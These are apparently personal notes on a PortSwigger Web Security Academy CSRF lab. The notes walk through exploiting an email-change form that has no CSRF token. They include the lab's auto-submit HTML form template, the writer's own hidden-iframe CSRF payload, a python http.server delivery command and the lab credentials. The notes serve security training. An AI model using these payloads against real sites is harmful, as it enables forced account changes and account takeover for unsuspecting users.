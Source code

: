 
## **1. CSRF vulnerability with no defenses**
This lab's email change functionality is vulnerable to CSRF.
1. Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.
2. If you're using [Burp Suite Professional](https://portswigger.net/burp/pro), right-click on the request and select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".
    Alternatively, if you're using [Burp Suite Community Edition](https://portswigger.net/burp/communitydownload), use the following HTML template. You can get the request URL by right-clicking and selecting "Copy URL".
    `<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email"> <input type="hidden" name="email" value="anything%40web-security-academy.net"> </form> <script> document.forms[0].submit(); </script>`
    
3. Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".
4. To verify that the exploit works, try it on yourself by clicking "View exploit" and then check the resulting HTTP request and response.
5. Change the email address in your exploit so that it doesn't match your own.
6. Click "Deliver to victim" to solve the lab.

Vulnerable parameter - email change functionality
Goal - exploit the CSRF vulnerability and change the email address
creds - wiener:peter

In order for a CSRF attack to be possible:
- A relevant action - email change functionality
- Cookie based session handling - session cookie
- No unpredictable request parameters - **satisfied** (****no csrf token is present)**

![[Pasted image 20240920205439.png]]

- HTML payload (form action= "https://HOST/POST")
```
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://target-acb91feb1e053ea78076271500a20022.web-security-academy.net/my-account/change-email" method="POST" target="csrf-iframe" id="csrf-form">
            <input type="hidden" name="email" value="test5@test.ca">
        </form>

        <script>document.getElementById("csrf-form").submit()</script>
    </body>
</html>
```

- Delivering trough a python server (https://localserver:8000/path/to/file)
```
python3 -m http.server <port-number>
```

- Accessing the above link will redirect the target to the 'desired' website meanwhile the reset email will be changed per our html script(payload)
